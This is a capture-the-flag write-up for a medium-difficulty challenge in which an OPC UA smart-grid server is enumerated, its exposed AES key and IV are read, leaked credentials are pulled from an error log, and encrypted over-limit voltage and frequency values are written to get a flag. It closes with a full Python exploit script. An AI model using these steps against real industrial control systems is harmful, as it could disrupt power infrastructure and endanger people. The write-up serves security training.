

 <font size='10'>Gridcryp</font>

30<sup>th</sup> April 2025

Prepared By: `r3dsh3rl0ck`

Challenge Author(s): `r3dsh3rl0ck`

Difficulty: <font color='orange'>Medium</font>

<br><br><br><br><br><br>

# Synopsis (!)

- Understanding OPC UA protocol basics
- Enumerating OPC UA server nodes
- Manipulating industrial control system (ICS) variables with encryption
- Executing a sequential attack chain with AES-128 CBC encryption and base 64 encode.

## Description (!)

Task Force Phoenix has uncovered an OPC UA server controlling Volnaya’s smart grid, critical to Operation Blackout’s infrastructure. Our intelligence indicates the server uses some kind of communication to secure its controls, We’ve identified four namespaces: 
- Security
- Authentication
- Diagnostics
- Grid. 

To disrupt the grid, we need to manipulate the Grid namespace by setting the Voltage greater then `300 volts` and the Frequency greater than `100 Hz`.

First, we must figure out the authentication mechanism by interacting with the Authentication namespace. Once authenticated, we can execute our sabotage plan and check the Grid behavior.


## Skills Required (!)

- Knowledge of OPC UA client operations
- Familiarity with Python and the opcua library
- Understanding of AES-128 CBC encryption and Base64 encoding
- Logical deduction for enumerating server nodes and sequencing operations

## Skills Learned (!)

- Browsing OPC UA server nodes and namespaces
- Implementing AES-128 CBC encryption for secure writes
- Extracting information from server error logs
- Crafting an exploit for ICS sabotage with encrypted communications

# Solution (!)

## Approaching the OPC UA Server

We’re tasked with sabotaging a smart grid system controlled by an OPC UA server as part of Operation Blackout. The server is accessible through tcp communication, and our initial reconnaissance reveals it uses encrypted communications to secure its controls. Without the server’s source code, we must enumerate its namespaces and nodes to understand its structure and execute our sabotage plan.

In OPC UA, nodes are organized hierarchically:

- Nodes represent objects (e.g., a control system), variables (e.g., voltage), or other data.
- Objects group related nodes, like a folder.
- Variables hold readable/writable values.
- Namespaces separate standard (namespace 0) and custom nodes.

The root node is the hierarchy’s top, with 0:Objects containing custom objects. Our intelligence indicates four namespaces to explore: Security, Authentication, Diagnostics, and Grid. Let’s start by connecting to the server and enumerating these namespaces.

## Enumerating Nodes

Using the python-opcua library, we connect to the server and enumerate the namespaces and nodes under 0:Objects. Here’s the initial code to explore the server:

```python
ns = cl.get_namespace_array()
sec = ns.index("Security")
aut = ns.index("Authentication")
dia = ns.index("Diagnostics")
grd = ns.index("Grid")

o = cl.get_root_node().get_child(["0:Objects"])
nd = {}

for f in o.get_children():
    fn = f.get_browse_name().Name
    if fn in ["Security", "Authentication", "Diagnostics", "Grid"]:
        for ch in f.get_children():
            cn = ch.get_browse_name().Name
            print(f"{fn} : {cn}")
            try:
                val = ch.get_value()
                nd[f"{fn}/{cn}"] = ch
            except:
                pass
```


This output reveals:

- Namespaces:
    - Security (index 2): Contains encryption details (Cipher, Key, CipherMode, IV, Encoding).
    - Authentication (index 3): Contains CommonName, Organization, SerialNumber (likely for authentication).
    - Diagnostics (index 4): Contains ErrorLog (possibly for error messages).
    - Grid (index 5): Contains Voltage, Frequency, and Log (likely where we’ll sabotage and find the flag).

Next we are interested in reading the value of the security namespace of which we are able to gather infromation about the communication of the system.

So we will use the following code to inspect the values.

```python
cipher = nd["Security/Cipher"].get_value()            
    k = nd["Security/Key"].get_value()
    cipher_mode = nd["Security/CipherMode"].get_value()  
    v = nd["Security/IV"].get_value()
    encd = nd["Security/Encoding"].get_value()

    print(f"Security: Cipher={cipher}, Key={k}, Cipher Mode={cipher_mode},  IV={v}, Enc={encd}")
```

As we can observe we have all the security information. The Key and IV are provided, indicating writes must be encrypted with AES-128 CBC and Base64-encoded. 


## Deducing the Authentication Mechanism

The Authentication namespace has three fields: CommonName, Organization, and SerialNumber. To proceed with our sabotage plan, we need to authenticate, but we don’t know the correct values. Let’s try writing invalid encrypted values to these fields to see the server's behavior.

We use the enc function to encrypt values with AES-128 CBC and Base64-encode them:

```python
def enc(d, k, v):
    c = AES.new(k, AES.MODE_CBC, v)
    e = c.encrypt(pad(d.encode(), 16))
    return base64.b64encode(e).decode()
```

We write encrypted invalid values ("test", "test2", "test3") to the Authentication nodes:

```python
val = enc("test", k, v)
val2 = enc("test2", k, v)
val3 = enc("test3", k, v)

cn.set_value(val)
org.set_value(val2)
sn.set_value(val3)
print("Sent invalid encrypted auth values to observe behavior")
time.sleep(2)

err = el.get_value()
print(f"Error: {err}")
```
The server responds with:

```
[-] Authentication failed, check certificate values
```

We discover that ErrorLog leaks the correct values if wrong encrypted values are given:

- CommonName: GridCrypOp
- Organization: VolnayaOrg
- SerialNumber: 981337


We encrypt these values and write them to authenticate:

```python
cn_val = "GridCrypOp"
org_val = "VolnayaOrg"
sn_val = "981337"

ecn = enc(cn_val, k, v)
eorg = enc(org_val, k, v)
esn = enc(sn_val, k, v)

cn.set_value(ecn)
org.set_value(eorg)
sn.set_value(esn)
print("Sent correct auth values\n")
```

## Sabotaging the Grid

Now that we’re authenticated, we need to sabotage the grid by setting Voltage greater than `300 volts` and Frequency greater than `100 Hz`, as per our plan. These values must be encrypted and Base64-encoded as the secuirty namespace reaveals, just like the authentication values, because the server rejects unencrypted writes.

We encrypt the values and write them to the Grid namespace:

```python
vol = nd["Grid/Voltage"]
freq = nd["Grid/Frequency"]
fl = nd["Grid/Log"]

evol = enc("310.0", k, v)
efreq = enc("125.0", k, v)

vol.set_value(evol)
freq.set_value(efreq)
print("Sent sabotage values")
time.sleep(3)
```

The server responds with:



The server indicates that the log has been updated, suggesting we check the Log field in the Grid namespace.

## Retrieving the Flag

We read the Grid/Log field to retrieve the flag:

```python
fl_val = fl.get_value()
print(f"Flag: {fl_val}")
```

## Final Exploit Script

Here’s the complete exploit script used to solve the challenge:

```python
#!/usr/bin/python3
from opcua import Client
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import base64
import time

def enc(d, k, v):
    c = AES.new(k, AES.MODE_CBC, v)
    e = c.encrypt(pad(d.encode(), 16))
    return base64.b64encode(e).decode()

cl = Client("opc.tcp://localhost:4840")

try:
    cl.connect()
    print("Connected")

    # Enumeration
    
    ns = cl.get_namespace_array()
    sec = ns.index("Security")
    aut = ns.index("Authentication")
    dia = ns.index("Diagnostics")
    grd = ns.index("Grid")

    o = cl.get_root_node().get_child(["0:Objects"])
    nd = {}

    for f in o.get_children():
        fn = f.get_browse_name().Name
        if fn in ["Security", "Authentication", "Diagnostics", "Grid"]:
            for ch in f.get_children():
                cn = ch.get_browse_name().Name
                print(f"{fn} : {cn}")
                try:
                    val = ch.get_value()
                    nd[f"{fn}/{cn}"] = ch
                except:
                    pass
                
    # Values of the secuirty namespace
    
    cipher = nd["Security/Cipher"].get_value()            
    k = nd["Security/Key"].get_value()
    cipher_mode = nd["Security/CipherMode"].get_value()  
    v = nd["Security/IV"].get_value()
    encd = nd["Security/Encoding"].get_value()

    print(f"Security: Cipher={cipher}, Key={k}, Cipher Mode={cipher_mode},  IV={v}, Enc={encd}")
    
    # Authenticate with the certificate

    el = nd["Diagnostics/ErrorLog"]
    cn = nd["Authentication/CommonName"]
    org = nd["Authentication/Organization"]
    sn = nd["Authentication/SerialNumber"]

    cn.set_value(f"{enc('test', k, v)}")
    org.set_value(f"{enc('test', k, v)}")
    sn.set_value(f"{enc('test', k, v)}")
    print("Sent invalid encrypted auth values to observe behavior")
    time.sleep(2)

    # Take the correct values from the server's output

    err = el.get_value()
    
    print(f"Error: {err}")

    cn_val = "GridCrypOp"
    org_val = "VolnayaOrg"
    sn_val = "981337"

    ecn = enc(cn_val, k, v)
    eorg = enc(org_val, k, v)
    esn = enc(sn_val, k, v)

    cn.set_value(ecn)
    org.set_value(eorg)
    sn.set_value(esn)
    print("Sent correct auth values\n")
    
    # Grid values
    
    time.sleep(2)

    vol = nd["Grid/Voltage"]
    freq = nd["Grid/Frequency"]
    fl = nd["Grid/Log"]

    evol = enc("310", k, v)
    efreq = enc("115", k, v)

    vol.set_value(evol)
    freq.set_value(efreq)
    print("Sent sabotage values")
    time.sleep(3)

    fl_val = fl.get_value()
    print(f"Flag: {fl_val}")

except Exception as e:
    print(f"Err: {e}")
finally:
    try:
        cl.disconnect()
    except:
        pass
    print("Disconnected")
```
